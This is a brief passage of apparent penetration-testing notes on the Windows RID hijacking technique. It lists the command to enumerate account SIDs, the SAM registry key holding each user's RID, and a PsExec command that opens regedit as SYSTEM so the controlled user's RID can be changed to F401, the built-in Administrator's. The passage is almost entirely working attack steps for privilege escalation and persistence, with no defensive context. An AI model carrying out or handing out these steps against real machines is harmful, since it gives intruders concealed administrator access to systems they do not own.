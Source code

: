Find accounts' RIDs
 
	wmic useraccount get name,sid

Now we only have to assign the RID=500 of the controlled user

	HKLM\SAM\SAM\Domains\Account\Users\00000[User RID in hex]
		Change RID to F401
	
	C:\tools\pstools> PsExec64.exe -i -s regedit
		Change RID to F401